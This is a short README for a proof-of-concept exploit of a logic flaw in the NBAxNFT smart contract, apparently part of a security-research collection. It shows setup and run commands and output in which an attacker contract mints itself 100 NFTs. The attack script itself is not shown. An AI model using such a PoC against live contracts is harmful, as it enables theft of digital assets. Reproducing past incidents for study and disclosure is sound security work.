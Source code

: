 # NBAxNFT's Logic Issue PoC

## How to run

Set up the environment variable for $ALCHEMY_KEY

```
$  git clone https://github.com/SupremacyCA/Web3.0-Rekt
$  export $ALCHEMY_KEY = xxxxx
$  cd ./NBAxNFT
$  yarn

then 

$  sh run.sh
```

```
$  sh run.sh
yarn run v1.22.18
warning package.json: No license field
$ /Users/WangYi/Projects/PoCs/Web3.0-Rekt/NFT/NBAxNFT/node_modules/.bin/hardhat run scripts/attack.js
[#] 🧛 Exploiter deployed to: 0xefAB0Beb0A557E452b398035eA964948c750b2Fd
[#] 🥷  Start Attack...
[#] 🧛 Number of NBAxNFTs held by the hacker before the attack:  0
[#] 🧛 Number of NBAxNFTs held by the hacker after the attack:  100
✨  Done in 4.05s.
```

---
